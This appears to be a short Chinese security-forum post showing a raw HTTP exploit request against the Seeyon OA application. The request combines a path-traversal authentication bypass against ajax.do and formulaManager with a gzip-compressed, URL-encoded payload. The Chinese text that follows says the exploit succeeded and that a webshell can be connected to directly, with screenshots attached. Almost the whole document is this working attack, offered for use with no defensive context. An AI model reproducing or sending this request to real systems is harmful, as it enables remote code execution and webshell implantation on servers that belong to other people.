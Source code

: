 ` POST /seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1 Host: xxx.xxx.xxx.xxx:7777 Connection: close Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 Sec-Fetch-Dest: document Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: JSESSIONID=7B6D8C106BD599DB0EF2F2E3B794A4FA; loginPageURL=; login\_locale=zh\_CN; Content-Type: application/x-www-form-urlencoded Content-Length: 8819 ​ managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh\_%C2%88%28\*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14\_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH\*va%C3%B9%0F%C3%A0\_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24\*%C2%A9e\*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E\_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D\_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD\*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA\*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4\_%05%00%00 `

exp攻击成功!

![QQ截图20231222155641.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-eae5ec465780043ad2623962e3576a6ba7325570.png)

直接连接webshell

![QQ截图20231222155748.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-08c361fb0e0ecb1ef600cc61b323987039d141e8.png)
